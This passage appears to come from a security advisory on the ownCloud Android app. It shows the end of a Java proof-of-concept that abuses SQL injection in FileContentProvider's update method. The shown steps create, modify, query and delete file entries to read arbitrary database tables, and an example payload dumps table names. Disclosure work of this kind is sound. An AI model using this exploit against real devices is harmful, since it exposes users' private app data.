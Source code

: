 ```java
            }
            return output.toString();
        }
    }

    private static ContentValues newOwncloudFile() throws Exception {
        ContentValues values = new ContentValues();
        values.put("parent", "a");
        values.put("filename", "a");
        values.put("created", "a");
        values.put("modified", "a");
        values.put("modified_at_last_sync_for_data", "a");
        values.put("content_length", "a");
        values.put("content_type", "a");
        values.put("media_path", "a");
        values.put("path", "a");
        values.put("file_owner", "a");
        values.put("last_sync_date", "a");
        values.put("last_sync_date_for_data", "a");
        values.put("etag", "a");
        values.put("share_by_link", "a");
        values.put("shared_via_users", "a");
        values.put("permissions", "a");
        values.put("remote_id", "a");
        values.put("update_thumbnail", "a");
        values.put("is_downloading", "a");
        values.put("etag_in_conflict", "a");
        return values;
    }

    public static String deleteFile(Context ctx, String id) throws Exception {
        ctx.getContentResolver().delete(
                Uri.parse("content://org.owncloud/file/" + id),
                null,
                null
        );
        return "1";
    }
}
```

By providing a columnName and tableName to the exploit function, the attacker takes advantage of the issues explained above to:

* Create a new file entry in `FileContentProvider`.
* Exploit the SQL Injection in the `update` method to set the `path` of the recently created file to the values of `columnName` in the table `tableName`.
* Query the `path` of the modified file entry to obtain the desired values.
* Delete the file entry.

For instance, `exploit(context, "name", "SQLITE_MASTER WHERE type="table")` would return all the tables in the `filelist` database.
